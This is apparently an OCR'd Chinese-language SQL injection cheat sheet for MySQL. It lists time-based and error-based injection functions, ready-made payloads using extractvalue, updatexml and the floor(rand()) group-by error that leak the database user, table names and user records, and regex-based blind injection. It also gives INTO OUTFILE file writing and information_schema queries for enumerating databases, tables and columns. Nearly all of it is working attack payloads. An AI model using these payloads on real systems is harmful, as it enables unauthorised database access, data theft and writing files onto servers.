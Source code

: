 ascii()    同ord()


**Time-Based**

BENCHMARK(count,func())

sleep()

if(a,t,f)      	 	//同a?t:f



**Wrong-Based**

使用group by对rand()函数操作时会返回duplicate key error

rand(int)   	//以int为种子生成伪随机数

floor()     	//向下取整

count()     	//统计个数

+ and extractvalue(1, concat(0x25, (select table_name from information_schema.tables limit 1))); 

+ and 1=(updatexml(1,concat(0x25,(select user())),1))

+ and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from 
information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#

+ and select * from(select * from table a join table b)as c


**正则注入**

Mysql中的RE和大多数编程语言中的相同，不赘述

`select user() regexp '^[a-z]'`     正确时返回1，错误返回0

`select * from * where id =1 and 1=(user() regexp '^[a-z]{4}')`

regexp可替换为like



**操作文件**

`and (select count(*) from mysql.user)>0`    //返回正常说明有读取权限

`select * INTO OUTFILE 'file_name'`     //写入文件，文件不能存在



爆数据库 `select schema_name from information_schema.schemata `

爆某库的数据表 `select table_name from information_schema.tables where table_schema=’xxxxx’ `

爆某表的所有列 `select column_name from information_schema.columns where table_name=’xxxxx’` 

获取某列的内容 `select xx_column from xx_table `

列出所有的数据库 `select group_concat(schema_name) from information_schema.schemata `

列出某个库当中所有的表 `select group_concat(table_name) from information_schema.tables where table_schema='xxxxx'`

